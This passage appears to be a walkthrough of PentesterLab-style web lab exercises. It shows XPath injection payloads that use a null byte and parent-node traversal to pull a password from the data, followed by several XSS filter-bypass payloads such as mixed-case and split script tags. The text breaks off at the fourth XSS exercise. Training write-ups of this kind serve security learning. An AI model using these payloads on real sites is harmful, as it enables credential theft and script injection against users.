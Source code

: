 Based on these tests and previous knowledge of XPath, it's possible to get an idea of what the XPath expression looks like:

```
[PARENT NODES]/name[.='[INPUT]']/[CHILD NODES]
```

To comment out the rest of the XPath expression, you can use a NULL BYTE (which you will need to encode as %00). As we can see in the XPath expression above, we also need to add a `]` to properly complete the syntax. Our payload now looks like `hacker']%00` (or `hacker' or 1=1]%00` if we want all results).

If we try to find the child of the current node, using the payload `'%20or%201=1]/child::node()%00`, we don't get much information.

Here, the problem is that we need to get back up in the node hierarchy, to get more information. In XPath, this can be done using `parent::*` as part of the payload. We can now select the parent of the current node, and display all the child node using `hacker'%20or%201=1]/parent::*/child::node()%00`.

One of the node's value looks like a password. We can confirm this, by checking if the node's name is `password` using the payload `hacker']/parent::*/password%00`.



```
/?name=admin%27]/parent::*/child::node()%00&password=pentesterlab
```

## XSS

### XSS - 1

```
/index.php?name=<script>alert(1)</script>
```

### XSS - 2

We see that the word script is filtered.

```
/index.php?name=<sCript>alert(1)</sCript>
```

### XSS - 3

Filtering but not nicely!

```
<scrip<sCript>t>alert('A')</scrip</sCript>t>
```

### XSS - 4

If the word script is blocked, we can try other things like:\
using a,img,div etc.
